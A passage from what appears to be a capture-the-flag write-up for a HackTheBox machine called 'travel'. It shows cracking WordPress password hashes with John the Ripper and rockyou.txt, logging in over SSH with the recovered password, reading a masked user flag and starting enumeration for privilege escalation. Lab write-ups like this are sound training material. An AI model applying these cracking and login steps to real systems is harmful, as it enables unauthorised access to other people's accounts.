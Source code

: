 Let us use john to `crack` the hashes using `rockyou.txt`.

```bash
root@darkness:~# john wp.hashes -w=/usr/share/wordlists/rockyou.txt
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
1stepcloser      (lynik-admin)
```

We successfully crack the hash for the user `lynik-admin`.

### Getting shell as user

Now that we have cracked the `hash`, let us try to login via `ssh`.

```bash
root@darkness:~# ssh lynik-admin@10.10.10.189
lynik-admin@10.10.10.189s password: 1stepcloser
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Fri 11 Sep 2020 02:58:39 PM UTC

  System load:                      0.02
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        209
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

lynik-admin@travel:~$
```

We get a shell as user and can now read` user.txt`.

```bash
lynik-admin@travel:~$ cat user.txt 
c9d35***************************
```

## Privesc to root

Now that we have a shell as `lynik-admin`, let us enumerate the system to find a way to escalate our privileges to root.

### Enumeration as lynik-admin

Checking out the home-directory of our user, we find a couple of interesting files:

```bash
lynik-admin@travel:~$ ls -alh
total 36K
drwx------ 3 lynik-admin lynik-admin 4.0K Apr 24 06:52 .
drwxr-xr-x 4 root        root        4.0K Apr 23 17:31 ..
lrwxrwxrwx 1 lynik-admin lynik-admin    9 Apr 23 17:31 .bash_history -> /dev/null
-rw-r--r-- 1 lynik-admin lynik-admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lynik-admin lynik-admin 3.7K Feb 25  2020 .bashrc
drwx------ 2 lynik-admin lynik-admin 4.0K Apr 23 19:34 .cache
-rw-r--r-- 1 lynik-admin lynik-admin   82 Apr 23 19:35 .ldaprc
-rw-r--r-- 1 lynik-admin lynik-admin  807 Feb 25  2020 .profile
-r--r--r-- 1 root        root          33 Sep 11 14:43 user.txt
-rw------- 1 lynik-admin lynik-admin  861 Apr 23 19:35 .viminfo
```
